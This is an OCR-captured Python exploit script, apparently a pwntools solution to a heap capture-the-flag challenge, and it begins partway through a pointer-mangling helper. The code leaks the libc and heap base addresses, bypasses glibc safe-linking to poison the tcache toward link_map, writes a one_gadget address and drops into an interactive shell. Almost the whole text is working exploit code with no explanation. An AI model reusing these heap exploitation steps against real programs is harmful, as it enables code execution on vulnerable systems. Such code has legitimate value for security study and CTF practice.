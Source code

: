 ```python
	result=((ptr1>>12)^(ptr2))
	return result

new(0x418)
new(0x18)
new(0x418)
new(0x4f8)
new(0x18)

delete(0)
delete(2)
new(0x418)
new(0x418)
show(0)

#libc_base=u64(r.recv(8))-0x1e0c00
libc_base=u64(r.recv(8))-0x218cc0
success('libc_base: '+hex(libc_base))

heap=u64(r.recv(8))-0x6d0
success('heap: '+hex(heap))

link_map=libc_base+0x260220
one_gadget=libc_base+0xeea9c

edit(2,p64(heap+0x6d0)+p64(heap+0x6d0)+'\x00'*0x400+p64(0x420))
delete(3)

new(0x88)
new(0x88)
delete(5)
delete(3)

edit(2,p64(xor_ptr(heap+0x6e0,link_map))[:-1]+'\n')
new(0x88)
new(0x88)
edit(5,p64(heap)+'\n')

new(0x1000)
new(0x1000)
new(0xd00)
new(0xd00)

edit(9,'a'*0x28+p64(one_gadget)+'\n')

#gdb.attach(r,'b *'+str(libc_base+0x23bed3))

exit()

r.interactive()

```
